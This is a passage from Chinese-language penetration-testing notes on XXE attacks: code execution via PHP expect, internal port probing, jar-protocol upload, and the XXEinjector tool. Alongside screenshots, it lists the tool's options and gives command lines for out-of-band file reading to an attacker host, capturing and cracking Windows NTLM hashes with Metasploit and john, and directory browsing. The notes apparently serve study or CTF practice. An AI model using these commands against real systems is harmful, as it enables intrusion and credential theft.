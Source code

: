 这种情况很少发生，但在配置不当/开发内部应用情况下（PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上），攻击者能够通过XXE执行代码。<br />![截屏2021-06-17 下午8.21.11.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623932484573-1c34c559-5b41-4cde-b504-547c3ee52655.png#align=left&display=inline&height=124&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-17%20%E4%B8%8B%E5%8D%888.21.11.png&originHeight=362&originWidth=1316&size=290238&status=done&style=none&width=452)
## 内网端口探测
可根据返回信息内容判断该端口是否打开。若测试端口返回“Connection refused”，则可以知道该端口是closed的，否则为open。<br />![截屏2021-06-17 下午8.24.33.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623932694797-eca2f894-7abc-4d8e-8875-d17ad08dbf3b.png#align=left&display=inline&height=134&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-17%20%E4%B8%8B%E5%8D%888.24.33.png&originHeight=570&originWidth=1926&size=520421&status=done&style=none&width=454)
## jar协议上传文件
jar协议语法    jar:{url}!/{entry}<br />url是文件的路径，entry是想要解压出来的文件<br />jar协议处理文件的过程：下载jar/zip文件到临时文件中提取出我们指定的文件删除临时文件<br />![截屏2021-06-17 下午8.33.09.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623933204568-64d2740d-9839-4d08-8965-a5006dc6ef75.png#align=left&display=inline&height=77&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-17%20%E4%B8%8B%E5%8D%888.33.09.png&originHeight=338&originWidth=2276&size=413186&status=done&style=none&width=518)
# XXE利用工具-XXEinjector
![截屏2021-06-17 下午8.36.34.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623933410378-67e801c6-ec16-4d57-8bcc-3f34ce3e980a.png#align=left&display=inline&height=1270&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-17%20%E4%B8%8B%E5%8D%888.36.34.png&originHeight=1270&originWidth=2566&size=1133272&status=done&style=none&width=2566)
```shell
--host           必填项– 用于建立反向链接的IP地址。(--host=192.168.0.2)
--file           必填项- 包含有效HTTP请求的XML文件。(--file=/tmp/req.txt)
--path           必填项-是否需要枚举目录 – 枚举路径。(--path=/etc)
--brute          必填项-是否需要爆破文件 -爆破文件的路径。(--brute=/tmp/brute.txt)
--logger         记录输出结果。
--rhost          远程主机IP或域名地址。(--rhost=192.168.0.3)
--rport          远程主机的TCP端口信息。(--rport=8080)
--phpfilter      在发送消息之前使用PHP过滤器对目标文件进行Base64编码。
--netdoc         使用netdoc协议。(Java).
--enumports      枚举用于反向链接的未过滤端口。(--enumports=21,22,80,443,445)
--hashes         窃取运行当前应用程序用户的Windows哈希。
--expect         使用PHP expect扩展执行任意系统命令。(--expect=ls)
--upload         使用Java jar向临时目录上传文件。(--upload=/tmp/upload.txt)
--xslt           XSLT注入测试。
--ssl            使用SSL。
--proxy          使用代理。(--proxy=127.0.0.1:8080)
--httpport       自定义HTTP端口。(--httpport=80)
--ftpport        设置自定义FTP端口。(--ftpport=21)
--gopherport     设置自定义gopher端口。(--gopherport=70)
--jarport        设置自定义文件上传端口。(--jarport=1337)
--xsltport       设置自定义用于XSLT注入测试的端口。(--xsltport=1337)
--test           该模式可用于测试请求的有效。
--urlencode      URL编码，默认为URI。
--output         爆破攻击结果输出和日志信息。(--output=/tmp/out.txt)
--timeout        设置接收文件/目录内容的Timeout。(--timeout=20)
--contimeout     设置与服务器断开连接的，防止DoS出现。(--contimeout=20)
--fast           跳过枚举询问，有可能出现结果假阳性。
--verbose        显示verbose信息。
一、读取文件：
ruby XXEinjector.rb --host=192.168.0.110 --path=c:/flag.txt --httpport=80 --file=req.txt --verbose --oob=http --phpfilter
二、获取Windows 用户Hash
1、启动msf，执行use auxiliary/server/capture/smb ,set johnpwfile /tmp/john, run
2、执行： ruby XXEinjector.rb --host=192.168.0.110  --file=req.txt --hashes --verbose
3、查看/tmp/john中的Hash
4、执行命令破解：john --format=netntlmv2 /tmp/john，或john /tmp/john_netntlm --format=netntlm
三、目录浏览：
ruby XXEinjector.rb --host=10.2.7.180 --path=c:/ --file=req3.txt --verbose
```